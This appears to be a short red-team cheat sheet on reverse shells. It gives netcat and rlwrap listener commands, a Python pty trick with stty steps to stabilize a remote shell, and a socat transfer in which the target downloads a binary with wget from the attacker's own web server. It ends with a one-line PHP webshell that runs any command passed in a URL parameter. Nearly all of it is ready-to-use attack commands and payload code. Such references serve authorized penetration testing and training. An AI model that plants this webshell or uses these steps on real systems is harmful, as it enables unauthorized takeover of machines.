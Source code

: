 ```yaml
---
category:
  - redteam
---
```

!!! info "Info"
	"Reverse shells _allow attackers to open ports to the target machines, forcing communication and_ enabling a complete takeover of the target machine." -[Imperva](https://www.imperva.com/learn/application-security/reverse-shell/)
## Stabilization
### TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

### Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
[Netcat for Windows](https://github.com/int0x33/nc.exe)
### Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \<local IP>/socat -O /tmp/socat
```

## Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali

